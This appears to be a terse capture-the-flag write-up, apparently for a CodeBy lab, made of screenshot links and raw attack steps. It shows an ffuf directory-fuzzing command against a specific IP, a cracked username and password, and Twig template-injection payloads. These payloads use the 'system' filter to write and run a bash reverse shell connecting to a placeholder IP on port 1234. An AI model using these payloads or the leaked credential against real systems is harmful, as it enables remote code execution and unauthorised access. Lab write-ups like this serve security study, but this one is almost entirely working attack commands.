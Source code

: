 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c079d78e-b88f-4b01-a521-ad09aecc85c3)

ffuf -u http://62.173.140.174:28280/FUZZ.zip -w ~/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-big.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f5aac93b-2e9e-4578-beab-2ac40f327e1a)

john

gravman:2yyaeg2AiWy2v6E

https://github.com/advisories/GHSA-f9jf-4cp4-4fq5

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48953f60-45db-40b4-8cd2-37ad2c95b2ea)

{{['echo "sh -i >& /dev/tcp/IP/1234 0>&1" > sc.sh']|filter('system')}}
{{['bash sc.sh']|filter('system')}}
